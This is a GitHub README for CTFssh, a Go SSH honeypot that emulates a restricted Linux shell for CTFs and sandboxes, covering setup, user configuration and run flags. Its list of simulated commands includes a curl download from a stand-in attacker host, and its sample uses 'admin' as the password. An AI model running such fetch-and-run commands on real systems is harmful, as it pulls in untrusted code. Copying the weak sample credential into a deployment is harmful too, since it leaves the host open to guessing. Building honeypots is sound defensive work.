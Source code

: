 # CTFssh – Minimal SSH Honeypot Shell

**CTFssh** is a lightweight and configurable SSH server written in Go, designed to simulate a restricted shell for honeypots, CTFs, and sandbox environments. It supports both password and public key authentication, user-based command whitelists, and realistic command emulation.

---

## ✨ Features

- 🔐 Auth via shadow-compatible password hashes or SSH public keys
- 🧑 Per-user permissions and command restrictions
- 📂 Simulates Linux commands using static text or fake executable scripts
- 🚫 No shell, tunneling, SCP, or real exec
- 🪓 Login rate limiting per user/IP
- 🧠 Honeypot-safe logging of commands and URLs

---

## 🛠️ How It Works

- Users are authenticated using `users.json`
- Each session launches a custom shell environment
- Only predefined commands are accepted per user
- Commands either:
  - Return static text (from `text/`)
  - Run safe scripts (from `command/`)
- Logs all commands, login attempts, and fake network usage

---

## 📁 Project Layout
```
├── main.go # Entrypoint 
├── users.go # Authentication logic 
├── commands.go # Command dispatch and execution 
├── hostkey.go # Host key loader/generator 
├── ratelimit.go # Login rate-limiting 
├── users.json # User definitions 
├── host_key # SSH server key 
├── command/ # Simulated executables (curl, ping, etc.) 
├── text/ # Static command output (ls, uname, etc.) 
├── help/ # Help messages per command 
├── work/ # Optional user work directory
```
---

## 🚀 Quick Start

### 🔧 Build

```bash
go build -o ctfssh
```
🔐 Host Key
Generate it on first run or with:
```bash
make hostkey
```
👤 Create users.json
Example:
```json
[
  {
    "username": "admin",
    "hash": "$6$somesalt$...",
    "admin": true,
    "restrict": "",
    "allowed": ["help", "exit", "ls", "cat", "curl", "wget"],
    "prompt": "$ ",
    "banner": "Welcome to your secure fake shell"
  }
]
```

Generate hashes:
```bash
python3 -c 'import crypt; print(crypt.crypt("admin", crypt.mksalt(crypt.METHOD_SHA512)))'
```

▶️ Run the Server
```bash
./ctfssh --port 2222 --hostkey host_key --users users.json --banner "SSH-2.0-CTFssh"
```

🧪 Simulated Commands

cat /proc/cpuinfo
curl https://attacker.com/file.sh
ping 8.8.8.8
w, last, uname, uptime, ls, id

🔒 Security & Safety

All commands are isolated and non-destructive
Inputs are parsed and sanitized
No shell or command chaining allowed
Rate limiting blocks bruteforce attempts
Can safely be run on port 22 using setcap or iptables redirect



Flag	Description
--port	Port to listen on
--hostkey	Path to SSH private key
--users	Path to user config JSON
--banner	SSH version banner string

📦 Example Commands in command/

cat → fake /proc and /etc reads
curl, wget → logs URLs and mimics download
ping → fake ICMP responses
w, last → fake session reports

📤 Deployment

Use make build or:
```bash
go build -o ctfssh main.go users.go commands.go hostkey.go ratelimit.go
```

Use authbind, iptables, or setcap to bind to port 22 as non-root.
🛡️ License

MIT

